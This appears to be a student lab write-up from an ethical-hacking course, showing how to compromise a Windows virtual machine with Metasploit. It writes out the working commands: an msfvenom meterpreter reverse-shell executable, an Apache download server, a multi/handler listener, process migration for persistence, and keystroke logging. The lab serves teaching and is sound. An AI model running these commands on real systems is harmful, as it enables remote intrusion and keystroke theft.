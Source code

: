 Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_23_38](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/97641bd9-a1de-4183-a479-ab01f69198c5)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_25_11](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/2f7d21e8-ac0b-4529-b7b3-a45679f82ba3)

copy the fun.exe into the apache /var/www/html folder


Start apache server

sudo systemctl apache2 start

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_27_19](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/33b8fa8c-e0fe-4284-8005-035ad5941078)

Check the status of apache2

Invoke msfconsole:

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_29_04](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/eb634194-da71-401f-b3c4-3b7608784aaf)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/e90489e5-9bcb-4f59-b2d7-a9f5cf05bef6)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads. 

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_Windows 7_27_04_2024_14_35_20](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/e254c516-d158-474c-be36-929702a9f334)

On kali give the command exploit

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_27_04_2024_14_31_33](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/60ce3e07-c61d-43a0-a87e-824ef27994d0)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps  ⇒ can see the fun.exe process running with pid 1156

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_35_53](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/19707a1d-9ab5-4cb3-a0a5-bb77997db1b2)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.

To become more persistent, we'll migrate to a process that will last longer.

Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_07](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/22cd7317-cb46-4df4-94b0-62ba262b3c26)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_37_53](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/c2356dfb-4329-4f6b-b35c-45b526e5e643)

keyscan_dump	Shows the keystrokes captured so far

![VirtualBox_kali-linux-2023 4-virtualbox-amd64_29_04_2024_08_41_09](https://github.com/Aishwarya-TM/EH-EX-6/assets/127846109/6a746190-c48c-49ea-8e44-a1391edca22b)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
